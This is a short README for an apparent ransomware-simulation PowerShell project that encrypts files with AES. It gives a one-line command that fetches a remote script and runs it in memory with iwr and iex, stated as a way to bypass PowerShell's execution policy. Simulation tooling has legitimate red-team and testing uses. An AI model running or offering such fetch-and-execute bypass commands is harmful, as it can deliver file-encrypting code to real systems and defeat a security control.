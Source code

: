 Ransomware-Simulation-PowerShell-Encrypt-AES

A powershell script derived from Tyler Siegrist PS module and crypt script.

Oh also, execute from memory to try to bypass the PS script execution policy, by using: 

iwr -UseBasicParsing "https://raw.githubusercontent.com/popalltheshells/Ransomware-Simulation-PowerShell-Encrypt-AES/main/ransim.ps1" | iex

